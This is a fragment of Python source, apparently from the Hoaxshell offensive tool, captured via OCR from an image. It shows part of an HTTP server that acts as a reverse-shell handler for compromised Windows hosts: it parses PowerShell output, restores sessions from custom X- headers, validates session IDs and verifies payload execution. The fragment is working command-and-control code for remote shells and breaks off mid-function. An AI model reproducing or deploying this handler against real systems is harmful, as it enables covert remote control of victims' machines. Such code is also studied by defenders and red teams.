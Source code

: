 			if not args.exec_outfile:				
				p = tmp[-1].strip().rsplit("\n")[-1]
				p = p.replace(":", "", 1).strip() if p.count(":") > 1 else p
				
			else:
				p = Hoaxshell.init_dir
				
			prompt = f"PS {p} > "

		except UnicodeDecodeError:
			print(f'[{WARN}] Decoding data to UTF-8 failed. Printing raw data.')

		if isinstance(output, bytes):
			return str(output)

		else:
			output = output.strip() + '\n' if output.strip() != '' else output.strip()
			return output
	


	def do_GET(self):

		timestamp = int(datetime.now().timestamp())
		Hoaxshell.last_received = timestamp

		if args.grab and not Hoaxshell.restored:
			if not args.Header:
				header_id = [header.replace("X-", "") for header in self.headers.keys() if re.match("X-[a-z0-9]{4}-[a-z0-9]{4}", header)]
				Hoaxshell.header_id = f'X-{header_id[0]}'
			else:
				Hoaxshell.header_id = args.Header
				
			session_id = self.headers.get(Hoaxshell.header_id)
			
			if len(session_id) == 26:
				h = session_id.split('-')
				Hoaxshell.verify = h[0]
				Hoaxshell.get_cmd = h[1]
				Hoaxshell.post_res = h[2]
				Hoaxshell.SESSIONID = session_id
				Hoaxshell.restored = True
				Hoaxshell.execution_verified = True
				session_check = Thread(target = checkPulse, args = (stop_event,))
				session_check.daemon = True
				session_check.start()

				print(f'\r[{GREEN}Shell{END}] {BOLD}Session restored!{END}')
				Hoaxshell.rst_promt_required = True

		self.server_version = Hoaxshell.server_version
		self.sys_version = ""
		session_id = self.headers.get(Hoaxshell.header_id)
		legit = True if session_id == Hoaxshell.SESSIONID else False

		# Verify execution
		if self.path == f'/{Hoaxshell.verify}' and legit:
